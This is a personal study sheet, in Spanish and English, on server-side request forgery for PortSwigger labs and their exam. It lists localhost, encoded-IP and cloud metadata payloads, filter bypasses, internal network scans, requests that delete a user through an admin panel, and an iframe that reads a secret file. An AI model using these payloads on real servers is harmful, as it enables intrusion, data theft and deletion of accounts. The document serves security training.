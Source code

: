 Los bellos ataques server side request forgery, poder nosotros acceder a info privada, interna de un servidor desde la interfaz visual de la aplicación en internet, este ataque es seguro que puede aparecer en el stage `3` para poder acceder al secret. 

> SSRF Sample payloads.

```html
/product/nextProduct?currentProductId=6&path=https://EXPLOIT.net  

stockApi=http://localhost:6566/admin  

http://127.1:6566/admin  

Host: localhost
```

> Alternative IP representation of `127.0.0.1`:

1. 2130706433
2. 017700000001
3. 127.1
# SSRF Payloads

> Server side request forgery

```
127.0.0.1
127.1
169.254.169.254
```

```
localhost
Localhost
LocalHost
lOcAlhOsT
LOcalHOSt
```

```
[::]
[0000::1]
[0:0:0:0:0:ffff:127.0.0.1]
```

```
①②⑦.⓪.⓪.⓪
127.127.127.127
127.0.1.3
127.0.0.0
127。0。0。1
127%E3%80%820%E3%80%820%E3%80%821
```

```
2130706433
3232235521
3232235777
2130706433
```

```
017700000001
```

<hr>

- Direct SSRF:

```
stockApi=http://localhost/admin/
```

- Find Endpoint in Intruder:

```html
stockApi=http://192.168.0.§1§:6566/admin //BURP INTRUDER
```

- Blind with Referer with out-of-band detection:

![](Pasted%20image%2020250226223433.png)

```
Referer: http://BURP-COLLABORATOR.com
```

- Simple Bypasses:

```
- Change the URL in the `stockApi` parameter to `http://127.0.0.1/` and observe that the request is blocked.
- Bypass the block by changing the URL to: `http://127.1/`
- Change the URL to `http://127.1/admin` and observe that the URL is blocked again.
- Obfuscate the "a" by double-URL encoding it to %2561 to access the admin interface and delete the target user, o simplemente codear todo a doble url, esto: /admin
```

- Via Open Redirection:

```
Redirection in:
/product/nextproduct?path=http://192.168.0.12:6566/admin

stockApi=/product/nextProduct?currentProductId=4%26path=http://192.168.0.12:8080/admin/delete?username=carlos

stockApi=/product/nextProduct?currentProductId=4%26path=http://192.168.0.12:6566/admin/delete?username=carlos
```

You can change the URL of stockApi to make another api action, such as delete a user

```html
stockApi=http://localhost/admin/delete?username=carlos
```

##### Basic SSRF against another back-end system 

To solve the lab, use the stock check functionality to scan the internal `192.168.0.X` range for an admin interface on port 8080, then use it to delete the user `carlos`. Send to Intruder:

**SSRF localhost:6566 o 192.168.0.[burp intruder]** Como recomendacion portswigger dice que para los ataques durante el examen si se encuentra un SSRF es tirarlo por el puerto 6566

```html
stockApi=http://192.168.0.§1§:8080/admin //BURP INTRUDER
stockApi=http://192.168.0.§1§:6566/admin //BURP INTRUDER
```

We find out that .31 has different lenght and we can delete carlos

```html
stockApi=http://192.168.0.31:8080/admin/delete?username=carlos
stockApi=http://192.168.0.31:6566/admin/delete?username=carlos
```

Exam SSRF

```
{"table-html":"<div><p>Report Heading</p><iframe src='http://localhost:6566/home/carlos/secret'"}
```

##### Blind SSRF with out-of-band detection

Change referer header to your collaborator

```
...
Sec-Fetch-Dest: document
Referer: http://BURP-COLLABORATOR.com
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

```

##### SSRF with blacklist-based input filter


```
- Change the URL in the `stockApi` parameter to `http://127.0.0.1/` and observe that the request is blocked.
- Bypass the block by changing the URL to: `http://127.1/`
- Change the URL to `http://127.1/admin` and observe that the URL is blocked again.
- Obfuscate the "a" by double-URL encoding it to %2561 to access the admin interface and delete the target user.
```

##### SSRF with filter bypass via open redirection vulnerability

To solve the lab, change the stock check URL to access the admin interface at `http://192.168.0.12:8080/admin` and delete the user `carlos`.

Recordemos, for the exam the port must be: `6566` 

```
Changing directly is blocked, but we can abuse an open redirection vuln in /product/nextproduct?path=http://192.168.0.12:8080/admin

Observe that the stock checker follows the redirection and shows you the admin page.

Change stockApi from before to: /product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos

```